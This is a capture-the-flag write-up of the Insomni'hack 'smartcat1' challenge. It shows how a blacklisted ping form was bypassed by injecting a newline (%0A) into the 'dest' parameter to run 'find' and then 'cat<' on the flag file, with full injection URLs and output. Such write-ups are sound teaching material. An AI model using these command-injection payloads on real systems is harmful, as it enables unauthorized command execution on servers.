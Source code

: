 # Insomni'hack : smartcat1

#### Author: Wh1t3Fox

**Description**:
> We were given a website and told that only a single ping could be sent at a time.
> We were given a text box where we needed to enter the host to ping.

After entering random characters into the text box it was easy to see that there was a blacklist of characters.
The following characters were included in the blacklist: **" $;&|({`\t"**.

Because the challenge was smart cat debugging, we figured that we would need to use the cat command to access the
flag which was located somewhere on the remote system. Using Burpsuite to test bad characters in the input we noticed
that we would execute multiple commands using **%0A**, newline, to inject multiple commands. The most difficult part
here was trying to inject commands without using spaces because nearly ever command requires a space in order to execute.

Using the find command we were able to view the files in our current directory which revealed:

    http://smartcat.insomnihack.ch/cgi-bin/index.cgi?dest=google.com%0Afind

    PING google.com (74.125.24.138) 56(84) bytes of data.
    64 bytes from de-in-f138.1e100.net (74.125.24.138): icmp_seq=1 ttl=49 time=1.16 ms

    --- google.com ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 1.163/1.163/1.163/0.000 ms
    .
    ./index.cgi
    ./there
    ./there/is
    ./there/is/your
    ./there/is/your/flag
    ./there/is/your/flag/or
    ./there/is/your/flag/or/maybe
    ./there/is/your/flag/or/maybe/not
    ./there/is/your/flag/or/maybe/not/what
    ./there/is/your/flag/or/maybe/not/what/do
    ./there/is/your/flag/or/maybe/not/what/do/you
    ./there/is/your/flag/or/maybe/not/what/do/you/think
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag


Now we knew where the flag was, but it took a while for us to figure out how to read the file. Eventually we came to
the conclusion and realized that cat could be used without spaces by injecting:

    http://smartcat.insomnihack.ch/cgi-bin/index.cgi?dest=google.com%0Acat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag

    PING google.com (74.125.24.113) 56(84) bytes of data.
    64 bytes from de-in-f113.1e100.net (74.125.24.113): icmp_seq=1 ttl=48 time=6.11 ms

    --- google.com ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 6.110/6.110/6.110/0.000 ms
    INS{warm_kitty_smelly_kitty_flush_flush_flush}

